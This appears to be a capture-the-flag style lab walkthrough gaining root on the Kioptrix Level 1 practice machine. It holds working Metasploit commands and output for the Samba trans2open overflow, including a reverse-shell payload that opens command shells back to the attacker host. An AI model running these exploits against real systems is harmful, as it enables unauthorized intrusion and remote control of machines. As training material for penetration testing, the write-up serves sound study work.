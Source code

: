## Gaining root with metasploit
1. Back to samba 2.2.1a
```python
┌──(hyok㉿kali)-[~]
└─$ searchsploit samba 2.2.1a  
```
**Result** - We get exploit, which is **Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit)**

2. Searching for this exploit in metasploit 
```python
msf6 > search trans2open

Matching Modules
================

   #  Name                              Disclosure Date  Rank   Check  Description
   -  ----                              ---------------  ----   -----  -----------
   0  exploit/freebsd/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (*BSD x86)
   1  exploit/linux/samba/trans2open    2003-04-07       great  No     Samba trans2open Overflow (Linux x86)
   2  exploit/osx/samba/trans2open      2003-04-07       great  No     Samba trans2open Overflow (Mac OS X PPC)
   3  exploit/solaris/samba/trans2open  2003-04-07       great  No     Samba trans2open Overflow (Solaris SPARC)
```

3. configure the exploit
```python
msf6 > use 1
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/samba/trans2open) > options
msf6 exploit(linux/samba/trans2open) > set RHOSTS 192.168.1.7
RHOSTS => 192.168.1.7
msf6 exploit(linux/samba/trans2open) > show targets
msf6 exploit(linux/samba/trans2open) > exploit
[*] Started reverse TCP handler on 192.168.1.8:4444 
[*] 192.168.1.7:139 - Trying return address 0xbffffdfc...
[*] 192.168.1.7:139 - Trying return address 0xbffffcfc...
[*] 192.168.1.7:139 - Trying return address 0xbffffbfc...
[*] 192.168.1.7:139 - Trying return address 0xbffffafc...
[*] Sending stage (1017704 bytes) to 192.168.1.7
[*] 192.168.1.7 - Meterpreter session 1 closed.  Reason: Died
[*] 192.168.1.7:139 - Trying return address 0xbffff9fc...
[*] Sending stage (1017704 bytes) to 192.168.1.7
[*] 192.168.1.7 - Meterpreter session 2 closed.  Reason: Died
msf6 exploit(linux/samba/trans2open) > options
msf6 exploit(linux/samba/trans2open) > set payload linux/x86/  
msf6 exploit(linux/samba/trans2open) > set payload linux/x86/shell_reverse_tcp
payload => linux/x86/shell_reverse_tcp
msf6 exploit(linux/samba/trans2open) > exploit

[*] Started reverse TCP handler on 192.168.1.8:4444 
[*] 192.168.1.7:139 - Trying return address 0xbffff5fc...
[*] Command shell session 5 opened (192.168.1.8:4444 -> 192.168.1.7:32773) at 2023-06-13 08:44:58 +0530
[*] Command shell session 6 opened (192.168.1.8:4444 -> 192.168.1.7:32774) at 2023-06-13 08:44:58 +0530

host[*] Command shell session 7 opened (192.168.1.8:4444 -> 192.168.1.7:32775) at 2023-06-13 08:45:04 +0530
name
kioptrix.level1
```
